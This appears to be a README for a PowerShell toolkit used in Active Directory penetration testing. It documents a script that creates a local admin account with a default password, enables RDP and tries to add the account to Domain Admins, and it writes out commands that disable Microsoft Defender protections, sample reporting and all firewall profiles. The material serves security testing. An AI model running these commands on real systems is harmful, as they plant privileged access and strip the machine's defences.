 # PScheats

PScheats is a collection of PowerShell scripts designed to automate common tasks during Active Directory penetration testing and other administrative tasks. These scripts aim to save time during engagements by automating mundane tasks such as creating users, managing remote access, and Disabling AV and Defenders.

---

## CreateUser.ps1

The `CreateUser.ps1` script allows you to automate the creation of a user on a Windows machine. It will:
1. Create a user with a default or custom password.
2. Add the user to the local `Administrators` and `Remote Desktop Users` groups.
3. Enable Remote Desktop (RDP) on the machine.
4. Attempt to add the user to the "`Domain Admins`" group (if possible).
5. Provide a pre-configured `xfreerdp` command to connect to the machine via RDP.

### Parameters
- `username`: The username to create. (Required)
- `password`: The password for the created user. (Optional, default is `P@ssw0rd`)
- `-Delete`: If specified, the script will delete the user and revert all changes.

### Example Usage

#### To create a user with the default password `P@ssw0rd`:
```powershell
.\CreateUser.ps1 -u testuser
```
#### To create a user with the custom password `P@ssw0rd#`:
```powershell
.\CreateUser.ps1 -u testuser -p P@ssw0rd#
```
#### To delete a user and revert all changes:
```powershell
.\CreateUser.ps1 -d testuser 
```
![](1.png)

## ManageDF.ps1

The `ManageDF.ps1` script allows you to **easily enable or disable Microsoft Defender** real-time protection and the **Windows Firewall** (Domain, Private, and Public profiles) on a Windows machine.  
It is useful for quick security configuration during testing, pentesting, or troubleshooting.

---

### What it Does
- Disables or enables Microsoft Defender real-time monitoring.
- Disables or enables Windows Firewall (all profiles).
- Monitor(If turned on, it diables)
- Accepts multiple ways of specifying the action (`Enable`, `Disable`, `-e`, `-d`, `--enable`, `--disable`).

---

### Parameters
- `Enable` / `-e` / `--enable` : Enables Defender and Firewall.
- `Disable` / `-d` / `--disable` : Disables Defender and Firewall.

---

### Example Usage
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Set-MpPreference -DisableBlockAtFirstSeen $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisablePrivacyMode $true
Set-MpPreference -DisableScriptScanning $true
Set-MpPreference -SubmitSamplesConsent 2  
Set-MpPreference -MAPSReporting 0      
Set-NetFirewallProfile -Profile Domain,Private,Public -Enabled False
```

#### To check Defender and Firewall Status:
```powershell
.\ManageDF.ps1 Status
```

#### To monitor Defender and Firewall:
```powershell
.\ManageDF.ps1 Monitor
```

#### To disable Defender and Firewall:
```powershell
.\ManageDF.ps1 Disable
```

#### To Enable Defender and Firewall:
```powershell
.\ManageDF.ps1 Enable
```
![](image.png)

